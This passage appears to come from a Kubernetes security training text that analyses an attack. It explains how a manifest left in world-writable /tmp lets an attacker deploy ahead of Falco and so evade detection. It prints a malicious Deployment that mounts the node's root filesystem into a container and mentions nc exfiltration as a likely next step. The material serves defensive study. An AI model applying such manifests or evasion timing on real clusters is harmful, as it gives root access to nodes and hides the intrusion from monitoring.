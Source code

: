 > Listing 33 - Reading through a deployment script

This manifest file is stored in an insecure file path, because /tmp is globally writable and readable, so the manifest could be inserted or manipulated by another application that was exploited. In this scenario, it seems as though the manifest should be applied after Falco, but because the attacker's manifest is faster to create than Falco, it ends up getting deployed _before_ the normal applications on the system, avoiding initial detection from Falco. This is a timing attack that works for evading numerous Kubernetes security measures.

```
ubuntu@ip-172-31-40-52:~$ cat /tmp/manifest.yml
---
apiVersion: v1
kind: Namespace
metadata:
  name: red
...
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: admin
  namespace: red
spec:
  replicas: 1
  selector:
	matchLabels:
  	app: arroyo
  template:
	metadata:
  	labels:
    	app: arroyo
	spec:
  	containers:
  	- name: admin
    	image: alpine:latest
    	command: ["/bin/sleep"]
    	args: ["9999"]
    	volumeMounts:
    	- mountPath: /var/tmp
      	name: adminroot
  	volumes:
   	- name: adminroot
     	hostPath:
       	path: /
       	type: Directory
...
```

> Listing 34 - Review the malicious manifest

The most malicious aspect of this manifest is that it gains root access to an underlying node. However, the container does nothing with that access. We might expect that the container would be using **nc** to exfiltrate information from the node in the **command** section, rather than just sleeping. This indicates that further actions or steps in the attack were likely planned to come after this. The attacker may have wanted to use an **exec** and interactively review the node files and data.
